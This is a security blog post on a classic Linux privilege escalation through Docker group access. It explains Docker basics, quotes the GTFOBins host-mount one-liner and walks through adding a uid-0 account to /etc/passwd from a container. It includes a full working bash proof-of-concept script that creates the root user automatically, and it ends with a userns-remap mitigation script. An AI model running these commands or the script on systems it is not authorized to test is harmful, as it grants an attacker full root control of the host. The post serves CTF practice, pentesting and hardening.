




_[<-- Home](https://flast101.github.io)_


# Abusing Docker Configuration


In this article, I talk about a classic privilege escalation through Docker containers. This is a very well known trick used when the configuration let too many accounts run docker, and you will have to do it in some CTF boxes at least. Unfortunately, it is not always correcly understood.     
I had a lot of fun the first time I encountered it in PWK lab as wells as the second time on a HTB machine.      
Let's see what it is about.

## Summary

[1- Quick Definitions](https://github.com/flast101/docker-privesc#1--quick-definitions)   
[2- Real Facts](https://github.com/flast101/docker-privesc#2--real-facts)      
[3- GTFOBins](https://github.com/flast101/docker-privesc#3--gtfobins)      
[4- Exploiting The Vulnerability](https://github.com/flast101/docker-privesc#4--exploiting-the-vulnerability)   
[5- POC Script](https://github.com/flast101/docker-privesc#5--poc-script)   
[6- Mitigation](https://github.com/flast101/docker-privesc#6--mitigation)   

* * * 
## 1- Quick Definitions

**What is Docker ?**

Docker is a tool designed to make it easier to create, deploy, and run applications by using containers. Containers allow a developer to package up an application with all of the parts it needs, such as libraries and other dependencies, and deploy it as one package.



**What are containers ?**

Containers are an abstraction at the app layer that packages code and dependencies together. Multiple containers can run on the same machine and share the OS kernel with other containers, each running as isolated processes in user space. 

**What is a VM ?**

Virtual machines (VMs) are an abstraction of physical hardware turning one server into many servers. The hypervisor allows multiple VMs to run on a single machine. Each VM includes a full copy of an operating system, the application, necessary binaries and libraries.


* * *
## 2- Real Facts


### How does it work ?

A container is run from an image. An image is built using a Dockerfile. Here are some usefull commands:

- **Docker Hub:**   
By default connected to the [Docker Hub](https://hub.docker.com), a place which contains base images you can use to run a container.

- **Run a container:**   
**`docker run -di --name flast101 alpine:latest`**   
-d: detach   
-i: interactive   

- **Connect to an interactive container with a shell:**   
**`docker exec -ti flast101 sh`**   
-t: terminal   
-i: interactive   

- **Run to an interactive container with a shell:**   
**`docker run --name flast101 alpine:latest sh`**   
-t: terminal   
-i: interactive   

- **List containers:**      
**`docker ps -a`**    

- **remove a container:**   
**`docker rm -f flast101`**   

- **Create image from the Dockerfile:**   
**`docker build -t myimage:version .`**   

- **List images:**   
**`docker images`**    

- **Remove image**   
**`docker image rm flast101:v1.0`**

### Key points to understand: 
- By default, any machine container is run with root privileges (ie. you have root privileges inside the container). It means that any user (by default, any member of the "docker" group) who has access to the Docker Daemon has root privileges in the container.
- Sometimes you will want to remove a container and rerun it because you updated the image (or changed the Dockerfile). If you need to remove a container, data changes you made are not persistent. We usually mount a host directory to access persistent data from the container. 

For example for a web site example, you will run a container using the following command if you want to run a nginx server:   
```
docker run -tid -p 8080:80 -v /srv/data/nginx/:/usr/share/nginx/html/ --name flast101 nginx:latest
```   
***/srv/data/nginx/*** is host directory to be shared. In this case, it contains the pages of your web site.     
***/usr/share/nginx/html/*** is the target directory in the container where the files are used.      
That's great ! Your site contents are persistent, you can modify them independently from the web server, and you can update and maintain the web server without affecting the web site content. An (almost) perfect wolrd.

Now, let's suppose you are the admin and you want John to be able to run a container for whatever reason. You add John in the "docker" group or give him the ability to run docker as a sudoer. Fine, John can handle the web site or any other application you want him to run/maintain.    
**But what if John runs a container using this command:**
**`docker run -tid -v /etc/:/mnt/ --name flast101 ubuntu:latest bash`**

This is where security problems arise: he can easily read and write the **`/etc/shadow`** file, and he can also create a new root user by entering it directly in the **`/etc/passwd`** file... WTF are you doing John !? ;-)


* * * 
## 3- GTFOBins

If you like pentest and CTF, you know [GTFOBins](https://gtfobins.github.io/). If you don't, you should take a look.    
GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

There are some inputs about Docker [here](https://gtfobins.github.io/gtfobins/docker):




Let's take a look to the command used to to get an interactive shell:     
**`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`**

The container is based on Alpine, a lightweight linux disctribution, and the root directory "/" is accessible in the "/mnt" directory. It also spawnw a shell and if you type "id" you will see you are granted with root privileges... although you are still in the container, not in the host machine.    
But hey, if you are trying to get the root flag in a CTF, you have it. 

* * * 
## 4- Exploiting The Vulnerability

Now we know everything about this, what should I do to exploit it properly ?

**1. Check if the active user can run the Docker daemon**   
If you can not run it, you will get something like this:


 

**2. Prepare a new root user.**     
The plan is to create a new root user by entering it directly in the **`/etc/passwd`** file.    
With openssl, I can generate a password hashed with md5crypt which is valid in Linux. I choose a user **`$rootname`** with the password **`$passw`** and the salt **`$salt`** to generate the password hash. These will be variables in the script but with real values it should look like this: 
~~~
user@linux:~$ openssl passwd -1 -salt evil newrootpass
$1$evil$eu2ySQGNgNghQm4ASTnKa.
~~~

**3. Prepare a file `new_account` that contains the line I want to add to `/etc/passwd` on the host machine.**  
This line will look like this:
```
user@linux:~$ cat new_account
newroot:$1$evil$eu2ySQGNgNghQm4ASTnKa.:0:0:root:/root:/bin/bash 
```

**4. Run the container with a volume mounted making both the file `new_account` and `/etc/passwd` accessible from the container:**      
```
docker run -tid -v /:/mnt/ --name flast101 alpine
```

**5. Execute a bash command in the container that will add the new root user to the /etc/passwd file:**    
```
docker exec -ti flast101 sh -c "cat /mnt/tmp/new_account >> /mnt/etc/passwd"
```

**6. Remove the `new_account` file and login as root to the host.**   

* * * 
## 5- POC Script

Requirements:

- Access to a shell on the target with a user which can run Docker.
- The target should have either an internet connection or an image installed in Docker. Use **`docker images`** to check and change the "alpine" image accordingly. If there is no image go to [https://hub.docker.com](https://hub.docker.com) to get one (tar.gz file with its Dockerfile) and upload it on the target in your working directory.


Now let's put this down in a bash script:

```bash
#!/bin/bash

docker_test=$( docker ps | grep "CONTAINER ID" | cut -d " " -f 1-2 ) 

if [ "$docker_test" == "CONTAINER ID" ]; then
    echo 'Please write down your new root credentials.'
    read -p 'Choose a root user name: ' rootname
    read -s -p 'Choose a root password: ' passw
    echo ""
    read -p 'Choose the the salt to hash your password: ' salt
    hpass=$(openssl passwd -1 -salt $salt $passw)

    echo -e "$rootname:$hpass:0:0:root:/root:/bin/bash" > new_account
    mv new_account /tmp/new_account
    docker run -tid -v /:/mnt/ --name flast101.github.io alpine # CHANGE THIS IF NEEDED
    sleep 1; echo 'Please wait...'; sleep 1; echo '...'; sleep 1; echo '...';
    docker exec -ti flast101.github.io sh -c "cat /mnt/tmp/new_account >> /mnt/etc/passwd"
    sleep 1
    
    echo 'Success! Enter you password to use your root account:'
    rm /tmp/new_account
    su $rootname

elif [ $(id -u) -eq 0 ]; then
    echo "The user islready root. Have fun ;-)"
    exit

else echo "Your account does not have permission to execute docker, aborting..."
    exit

fi
```
Example:


* * * 
## 6- Mitigation

I could read here and there that you "should not use the docker group". This is just wrong. We just saw that it is not a matter of group, and moreover, in any organization you will need other accounts than root to be able to run docker. As usual, the first thing to do is simply apply the principle of least privilege (PoLP), starting with allowing as few people as possible to run docker. Then, isolating docker from your host machine is essential.

The principle is to create a user whose uid is unlikely to be used. Then have the docker daemon use it for launching containers.

Docker proposes an [official documentation](https://docs.docker.com/engine/security/userns-remap/#enable-userns-remap-on-the-daemon) to realise this mitigation.

Here is a short script based on this documentation that will help you mitigate this vulnerability:
```bash
#!/bin/bash

groupadd -g 99999 dockremap && 
useradd -u 99999 -g dockremap -s /bin/false dockremap && 
echo "dockremap:99999:65536" >> /etc/subuid && 
echo "dockremap:99999:65536" >>/etc/subgid

echo "
  {
   \"userns-remap\": \"default\"
  }
" > /etc/docker/daemon.json

systemctl daemon-reload && systemctl restart docker
```

**Example:**    

By default, the process is run as root in the container:



Applying the mitigation, we can get rid of this problem. The user "dockremap" is now running the process:





_[<-- Home](https://flast101.github.io)_


<!-- Global site tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-173692234-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'UA-173692234-1');
</script>


